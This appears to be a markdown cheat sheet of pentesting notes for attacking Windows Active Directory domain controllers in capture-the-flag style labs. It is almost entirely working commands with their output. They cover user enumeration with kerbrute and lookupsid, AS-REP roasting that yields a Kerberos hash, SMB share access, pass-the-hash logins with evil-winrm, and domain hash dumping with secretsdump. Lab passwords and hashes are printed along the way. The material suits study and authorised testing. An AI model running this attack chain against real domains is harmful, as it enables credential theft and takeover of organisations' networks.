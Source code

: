 # Domain Controllers
## Basics 
- Find the NETBIOS Domain Name
````
nbtscan -v 10.10.8.1-254
````
- Should also be in nmap output
````
3389/tcp  open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   DNS_Tree_Name: spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2021-08-20T18:00:52+00:00
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Issuer: commonName=AttacktiveDirectory.spookysec.local
````
- Add to `/etc/hosts`
## Kerbrute
- Find valid users
- Example Syntax
````
kerbrute -users userlist.txt -domain spookysec.local -dc-ip 10.10.55.114
Impacket v0.9.24.dev1+20210814.5640.358fc7c6 - Copyright 2021 SecureAuth Corporation

[*] Valid user => james
[*] Valid user => svc-admin [NOT PREAUTH]
[*] Valid user => James
[*] Valid user => robin
[*] Blocked/Disabled user => guest
[*] Valid user => darkstar
````
## Impacket
- Location:
````
/usr/share/doc/python3-impacket/examples/
````
- If we have IPC$ access without authentication we are able to list the domain users as anonymous
````
python3 lookupsid.py anonymous@10.10.10.10 | tee users.txt
````
- Isolate the users with `SidTypeUser`
````
grep SidTypeUser users.txt | awk '{print $2}' | cut -d "\\" -f2 > users.txt
````
- Now, let’s use `GetNPUsers.py` to find users without Kerberos pre-authentication:
````
python3 GetNPUsers.py vulnnet-rst.local/ -no-pass -userfile usernames.txt
````
- Should retrive a hash if the command is sucessful
````
$krb5asrep$23$t-skid@VULNNET-RST.LOCAL:692e76f70a8772c46ed94e73130460c8$713b0693498fdaff68642d78e713ca965e5007d5d864ca727289930783fe28f00bf79fef8126c4722d09cafc72ec60e940d31297591f67ce049030cb531ddd9c83cd37796fbf414b830a7c90fe26d2c45d6f2b624cd4413c58e3dbb77519dd69906248f8db27b1974b880a826003e562e25d9de9e4cb7cfa85c1de954761053b7d51a455530001348b46909f91f4e80bae7374071339f0920bb3e2ad95169d20f05d0cd586882facb63c058072dacb7ec8ddbcd9297331e1f6fb6d844ea7967659bee38fde4431af9f9608e9adcb38cb6e20e72bcf61c524f480b5ea2530e16dbeed2272855a61a05c03e84653aa1a3bbbd5ece06633
````
- Crack the hash with `john`
### SMB Samba authenticated access
````
smbclient -U vulnnet-rst.local/t-skid //10.10.100.15/NETLOGON
smbmap -u svc-admin -p management2005 -H 10.10.248.93
smbclient -U spookysec.local/svc-admin \\\\10.10.248.93\\backup 
````

- Cat out files with `smb`
````
Enter VULNNET-RST.LOCAL\t-skid's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Mar 17 00:15:49 2021
  ..                                  D        0  Wed Mar 17 00:15:49 2021
  ResetPassword.vbs                   A     2821  Wed Mar 17 00:18:14 2021

        8540159 blocks of size 4096. 4318542 blocks available
smb: \> get ResetPassword.vbs -
````
### evil-winrm
- Connect with pass the hash attack
````
evil-winrm -i 10.10.100.15 -u administrator -H "c2597747aa5e43022a3a3049a3c3b09d"
evil-winrm -i 10.10.100.15 -u a-whitehat -p "bNdKVkjv3RR9ht"
````
### Dump hashes
- Use `secretsdump.py` with impacket
- This will allow us to retrieve all of the password hashes that this user account (that is synced with the domain controller) has to offer.
````
python3 secretsdump.py vulnnet-rst.local/a-whitehat:bNdKVkjv3RR9ht@10.10.100.15
python3 secretsdump.py spookysec.local/backup:backup2517860@10.10.248.93
````
![spooky](https://user-images.githubusercontent.com/75596877/130284812-511a8141-5917-4954-8c29-e623c1edce36.png)









































